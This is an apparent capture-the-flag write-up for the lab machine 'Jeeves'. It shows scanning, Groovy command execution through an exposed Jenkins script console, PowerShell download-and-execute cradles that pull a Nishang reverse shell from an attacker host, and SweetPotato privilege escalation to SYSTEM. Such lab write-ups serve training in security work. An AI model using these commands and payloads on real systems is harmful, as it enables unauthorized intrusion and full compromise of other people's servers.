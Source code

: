 
# Jeeves
- Introduction
- Summary
- Walkthrough
- Mitigrations
- References

## Introduction



## Jeeves

The tester starteed with an nmap scan to enumerate the hosts services.

```
└──╼ [★]$ nmap -sC -sV -p 80,135,445,50000 10.10.10.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-12 12:35 GMT
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-12T17:35:46
|_  start_date: 2023-12-12T17:34:14
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m56s, deviation: 0s, median: 4h59m56s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.88 seconds

```

The scan showed that a web service was running on port 50000. The tester used ffuf to bruteforce the directories. 

```
└──╼ [★]$ ffuf -w '/home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'  -u http://10.10.10.63:50000/FUZZ -e .txt,.asp,.aspx,.config,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.63:50000/FUZZ
 :: Wordlist         : FUZZ: /home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .asp .aspx .config .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
    * FUZZ: askjeeves

:: Progress: [1245858/1245858] :: Job [1/1] :: 970 req/sec :: Duration: [0:23:13] :: Errors: 0 ::

```

The ffuf found the "askjeeves" endpoint. This showned that the host is running the jenkins service. Jenkins has a script console that allows user to run "groovy" scripts on the server. The tester used the following script to test code execution:

```
def process = "whoami".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

Which returned:

```
Result

Output: jeeves\kohsuke
Exit code: 0
```

The tester next started a shell on the host by downloading and invoking [this](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) powershell script. The tester set up a HTTP server using python and a Netcat listener then used the beolow script to download and run the shell.

```
def process = "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6:8083/Invoke-PowerShellTcp.ps1')".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8084
listening on [any] 8084 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49680
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>hostname
Jeeves
PS C:\Users\Administrator\.jenkins> whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins> 
```

This gave access to the host as the "kohsuke" user. The tester checked the users privileges and found that the user had the SeImpersonatePrivilege privilege. This privilege allows a user to imperonate process tokens.


```
PS C:\Users\Administrator\.jenkins> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS C:\Users\Administrator\.jenkins> 
```

The tester used the "sweetpotato" binary to exploit this vulnerability and get system. The tester used another HTTP server to download the binary.


```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
```

```
┌──(kali㉿kali)-[~/…/tools/priv_esc/windows/binaries]
└─$ python -m http.server 8080                                
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.63 - - [23/Dec/2023 18:03:34] code 404, message File not found
10.10.10.63 - - [23/Dec/2023 18:03:34] "GET /sweetpotato.exe HTTP/1.1" 404 -
10.10.10.63 - - [23/Dec/2023 18:03:56] "GET /SweetPotato.exe HTTP/1.1" 200 -

```
Once the binary had been downloaded the tester tested the exploit by running the "whoami" command with it which return the system account. The tester used the same process used previouly to get get a system shell. 

```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
PS C:\users\public\music> ./sweetpotato.exe -a whoami
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Jeeves/pipe/1b14b892-4acd-461d-8f4d-30d7665e1b02
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c whoami 
[+] process with pid: 3212 created.

=====================================

nt authority\system


[+] Process created, enjoy!
PS C:\users\public\music> 

```
The tester ran the download and invoke command using the exploit binary which gave a system shell.
```
PS C:\users\public\music> ./sweetpotato.exe -a "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8:8080/Invoke-PowerShellTcp.ps1')"  
```


```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8085        
listening on [any] 8085 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49688
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
Jeeves
PS C:\Windows\system32> 
```


## Mitigations 

## References
https://github.com/uknowsec/SweetPotato
https://github.com/samratashok/nishang
